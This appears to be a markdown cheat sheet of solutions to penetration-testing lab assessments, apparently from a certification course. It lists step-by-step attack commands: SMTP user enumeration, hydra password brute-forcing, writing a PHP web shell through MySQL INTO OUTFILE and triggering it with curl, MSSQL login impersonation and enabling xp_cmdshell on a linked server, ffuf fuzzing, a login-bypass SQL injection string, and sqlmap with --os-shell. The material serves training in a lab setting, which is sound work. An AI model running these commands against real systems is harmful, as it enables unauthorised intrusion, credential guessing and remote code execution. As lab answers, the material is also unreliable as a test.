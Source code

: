 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md

---
### Attacking Common Services:
---
#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
RCE:            curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
```
nmap scan:      nmap $ip -p- --open -o nmap.txt | grep '/tcp' | cut -d'/' -f1 | paste -sd, -
ftp anonymous:  ftp $ip 30021
download file:  get mynotes.txt
PW Bruteforce:  hydra -l simon -P mynotes.txt $ip ssh OR hydra -l simon -P mynotes.txt $ip pop3
Login:          ssh simon@$ip
```

#### Attacking Common Services - Hard:
```
-- 1. Get the names of all databases in the SQL Server instance
SELECT name FROM master.dbo.sysdatabases;
GO

-- 2. Switch to the 'TestingDB' database for further queries
USE TestingDB;
GO

-- 3. Get all tables from the 'TestAppDB' database
SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES;
GO

-- 4. Find distinct names of principals who have the 'IMPERSONATE' permission
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
GO

-- 5. Execute as the 'john' login and check the current user and sysadmin membership
EXECUTE AS LOGIN = 'john';
SELECT SYSTEM_USER;  -- Get the current user
SELECT IS_SRVROLEMEMBER('sysadmin');  -- Check if the user is a sysadmin
GO

-- 6. Get information about linked servers and remote status
SELECT srvname, isremote FROM sys.servers;
GO

-- 7. Enable 'show advanced options' on the linked server
EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
GO

-- 8. Apply the configuration changes (RECONFIGURE)
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 9. Execute a query on the linked server to get server details and check sysadmin role
EXECUTE ('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 10. Enable 'show advanced options' on the linked server using EXECUTE
EXECUTE ('EXEC sp_configure ''show advanced options'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 11. Apply the configuration (RECONFIGURE) on the linked server using EXECUTE
EXECUTE ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 12. Enable 'xp_cmdshell' on the linked server
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 13. Execute a command on the linked server using 'xp_cmdshell' to interact with the file system
EXECUTE ('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt > C:\Users\fiona\Desktop\xc.txt''') AT [LOCAL.TEST.LINKED.SRV];
GO
```
---
### Attacking Web Applications with Ffuf:
---
#### Skills Assessment - Web Fuzzing:
```
Subdomain Fuzzing:            ffuf -u http://academy.htb:54143 -H "Host:FUZZ.academy.htb:54143" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 423
Extension Fuzzing:            ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:54143/indexFUZZ
Page Fuzzing:                 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FUZZ -u http://faculty.academy.htb:54143/FUZZ -recursion -recursion-depth 1 -e .php,.phps,.php7 -fs 287
Parameter Fuzzing (POST):     ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "FUZZ=key" -H "Content-Type: application/x-www-form-urlencoded" -fs 774
Value Fuzzing (POST):         ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "username=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fs 781
     
```

---
### SQL Injection Fundamentals:
---
#### Skills Assessment :

#### For the login:
``` admin' or '1'='1'-- - ```
#### After the login (copy the the request from the browser as cURL):
``` sqlmap 'http://94.237.62 <SNIP> .php' -H 'Cookie: PHPSESSID=avgi9hf5r3hj0kfuh4573o7rr6' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'search=sdsdsds' --data 'search=*' --os-shell --batch ```
